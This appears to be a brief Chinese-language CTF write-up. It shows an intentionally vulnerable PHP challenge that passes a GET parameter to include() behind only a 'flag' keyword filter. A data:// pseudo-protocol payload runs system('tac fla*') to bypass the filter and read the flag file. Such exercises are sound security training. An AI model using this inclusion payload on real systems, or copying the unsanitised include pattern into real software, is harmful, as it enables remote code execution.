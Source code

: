 ```php
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 05:18:55
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
} 
```

代码中将c进行了包含，再输出flag

那么就利用伪协议去读flag

payload：`c=data://text/plain,<?php system('tac fla*');?>`

![image-20230429134736155](https://img.crzliang.cn/blog/image-20230429134736155.png)
